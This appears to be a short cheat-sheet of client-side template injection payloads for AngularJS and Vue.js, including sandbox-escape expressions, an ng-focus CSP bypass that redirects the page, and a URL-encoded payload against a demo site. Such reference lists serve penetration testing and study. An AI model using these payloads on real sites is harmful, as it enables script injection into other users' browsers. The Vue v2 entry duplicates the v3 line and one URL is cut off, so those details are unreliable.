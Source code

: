 ![image1](Image/xss.png)

## DOM XSS in AngularJS expression

- __When HTML contains ng-app attribute__
  - __you can execute arbitrary JavaScript code__
  - __To get the payloads go to book.hacktricks.xyz__
  - __use any payload in the search bar__
```javascript
{{$on.constructor('alert(1)')()}}
{{constructor.constructor('alert(1)')()}}
<input ng-focus=$event.view.alert('XSS')>

<!-- Google Research - AngularJS -->
<div ng-app ng-csp><textarea autofocus ng-focus="d=$event.view.document;d.location.hash.match('x1') ? '' : d.location='//localhost/mH/'"></textarea></div>
```

## vueJS
- Working payload: `https://vue-client-side-template-injection-example.azu.now.sh/?name=%7B%7Bthis.constructor.constructor(%27alert(%22foo%22)%27)()%7D%`
- A really good post on CSTI in VUE can be found in [portswigger.net](https://portswigger.net/research/evading-defences-using-vuejs-script-gadgets)
  ### v3
    - `{{_openBlock.constructor('alert(1)')()}}`
  
  ### v2
    - `{{_openBlock.constructor('alert(1)')()}}`

